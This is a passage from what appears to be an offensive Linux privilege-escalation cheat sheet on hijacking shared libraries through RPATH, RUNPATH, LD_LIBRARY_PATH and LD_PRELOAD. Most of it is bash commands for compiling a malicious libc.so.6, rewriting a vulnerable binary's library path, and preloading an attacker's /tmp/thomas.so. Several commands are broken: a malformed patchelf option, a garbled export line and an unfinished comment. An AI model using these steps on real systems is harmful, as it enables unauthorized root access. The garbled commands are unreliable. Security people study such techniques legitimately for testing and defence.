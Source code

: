 ```bash
ldd BINARY | grep "not found"
```

#### RPATH

[readelf](https://man7.org/linux/man-pages/man1/readelf.1.html) is a program for displaying various information about object files on Unix-like systems such as objdump.

- **-d**: Displays the contents of the file's dynamic section, if it has one.

```bash
# Display the library RPATH
readelf -d BIN | egrep "NEEDED|RPATH"
ldd BIN
# If there is one, create an evil dll and place it at the RPATH
gcc -fPIC -shared -static-libgcc -Wl,--version-script=version,-Bstatic exploit.c -o libc.so.6
```

#### RUNPATH

**RPATH** designates the run-time search path hard-coded in an executable file or library.
We need also to know about **$ORIGIN** which is a special variable that indicate actual executable filename.

To set a library when **-rpath** has been set during the compilation you can do the following

```bash
chrpath -r "\$\ORIGIN/PATH/thomas.so" /usr/bin/vulnerable_exe
```

If it is not possible, we try the to use [patchelf](https://github.com/NixOS/patchelf) which is a simple utility for modifying existing ELF executables and libraries

```bash
patchelf — set-rpath "$ORIGIN/PATH/thomas.so" /usr/bin/vulnerable_exe
```

#### "/lib" & "/usr/lib"

#### "LD_LIBRARY_PATH & LD_RUN_PATH" Method

LD_LIBRARY_PATH: Search path environment variable for the linux shared library.
LD_PRELOAD: Influence the linkage of shared libraries and the resolution of symbols (functions) at runtime.
LD_RUN_PATH: Tell the dynamic link loader where to search for the dynamic shared libraries an application was linked against.

We can do the following:

```bash
# Either add the path where our malicious .so is
LD_LIBRARY_PATH export LD_LIBRARY_PATH=/tmp/
# Use LD_PRELOAD to force vulnerable_exe to use thomas.so
LD_PRELOAD=/tmp/thomas.so /usr/bin/vulnerable_exe
# Use LD_RUN_PATH to
LD_RUN_PATH=/tmp/thomas.so /usr/bin/vulnerable_exe
```
